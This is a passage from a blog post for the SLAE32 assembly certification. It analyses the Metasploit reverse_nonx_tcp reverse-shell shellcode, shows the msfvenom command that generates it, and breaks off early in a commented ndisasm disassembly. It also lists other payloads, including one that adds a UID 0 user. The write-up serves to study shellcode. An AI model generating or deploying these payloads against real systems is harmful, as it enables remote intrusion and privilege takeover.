 Title: SLAE32 - Assignment 5.2
Date: 2022-06-04T10:21:41.000Z

<h2 id="disclaimer">Disclaimer</h2><p>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:</p><p><a href="https://www.pentesteracademy.com/course?id=3">https://www.pentesteracademy.com/course?id=3</a></p><p>Student ID: PA-30398</p><h2 id="analysis">Analysis</h2><p>I chose the following 4 shellcode samples:</p><table>
<thead>
<tr>
<th>Name</th>
<th>Description</th>
</tr>
</thead>
<tbody>
<tr>
<td>linux/x86/adduser</td>
<td>Create a new user with UID 0</td>
</tr>
<tr>
<td>linux/x86/shell/reverse_nonx_tcp</td>
<td>Spawn a command shell (staged). Connect back to the attacker</td>
</tr>
<tr>
<td>linux/x86/shell_find_tag</td>
<td>Spawn a shell on an established connection (proxy/nat safe)</td>
</tr>
<tr>
<td>linux/x86/shell_reverse_tcp_ipv6</td>
<td>Connect back to attacker and spawn a command shell over IPv6</td>
</tr>
</tbody>
</table>
<p>In this post I'll analyze <code>linux/x86/shell/reverse_nonx_tcp</code>.</p><h3 id="ndisasm">NDISASM</h3><p>To generate the payload:</p><pre><code class="language-bash">msfvenom -p linux/x86/shell/reverse_nonx_tcp -o shellcode.bin</code></pre><p>To analyze it with <code>ndisasm</code>:</p><pre><code class="language-bash">ndisasm shellcode.bin -b 32 -p intel</code></pre><p>It returns the following output (comments are mine though):</p><pre><code class="language-nasm">                            ; push 0x00000000
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; push 0x00000001
00000003  43                inc ebx
00000004  53                push ebx

                            ; push 0x02
00000005  6A02              push byte +0x2

                            ; push 0x00000066
00000007  6A66              push byte +0x66

                            ; EAX = 0x66 (102)
00000009  58                pop eax
